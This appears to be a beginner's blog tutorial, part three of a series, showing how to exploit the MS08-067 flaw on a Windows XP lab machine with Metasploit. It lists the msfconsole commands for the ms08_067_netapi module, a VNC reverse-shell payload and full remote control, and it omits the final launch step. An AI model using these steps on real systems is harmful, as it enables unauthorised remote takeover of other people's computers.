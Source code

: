 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Vulnurability)"
date:   2018-03-28 14:56:03 -0400
categories: jekyll update
---
```


Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise you would be commiting an illegal act.

Now that we have sucessfully obtained a list of all the vulnurabilities, we are going to use one of the bigger ones. You could use more than one of the critical vulnurabilities in Nessus but we are going to use MS08_067

<b>Finding The Commands To Hack Windows XP</b>

Once we have the codes, we need to look them up in the "Rapid 7" database. Rapid 7 is a company that develops a cool called Metasploit, which is the tool we use to actually hack another computer. We are going to use a tool called a VNC (Virtual Network Computing). This is a window that contains the remote operating system. It allows mouse and keyboard controlls, much like the virtual machine you are using now.

First, go to the [Rapid7 Vulnurabilities & Exploit Database][Rapid7-DB]

Type in the vulnurability code we want to use. In our particular case, it is MS08_067

In the dropdown menue to the right of the search field, choose "Metasploit Moduels"

Look under "Moduel Name" and identify the code exploit/windows/smb/ms08_067_netapi. We will use this later

Open terminal and type in the following command



{% highlight ruby %}
msfconsole
{% endhighlight %}

Wait for it to load then type in the following

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

Next we will need to use a payload. A payload is basicly software that takes advantage of the exploit. So type

{% highlight ruby %}
set PAYLOAD /windows/vncinject/reverse_tcp
{% endhighlight %}

You will need to load a list of settings before running the command to hack the Windows XP computer. We can do this by typing

{% highlight ruby %}
show options
{% endhighlight %}

You should get something like the image below

IMAGE OF SHOW OPTIONS

You may notice that a fiew of the fields are empty. RHOST and LHOST. RHOST is the remote host. The IP of the target computer. LHOST is the local host. Your computer.

You may not know your own IP. So open a new terminal tab with Ctrl+Shift+T and type

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should see something like this. I highlighted the IP in yellow.

IMMAGE OF IFCONFIG

Type in the following, but replace the RHOST IP with the Windows IP you found earlier and LHOST of the Kali IP.

{% highlight ruby %}
set RHOST 192.168.1.244
{% endhighlight %}

{% highlight ruby %}
set LHOST 192.168.1.244
{% endhighlight %}

We have everything we need right? Just one more setting. This will allow us to controll the computer rather than simply spy on it.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

Now run show options again and you should have something like this.

IMAGE OF SHOW OPTIONS

Congradulations. You did it! You can now do whatever you like to the target computer.


[Rapid7-DB]: https://www.rapid7.com/db


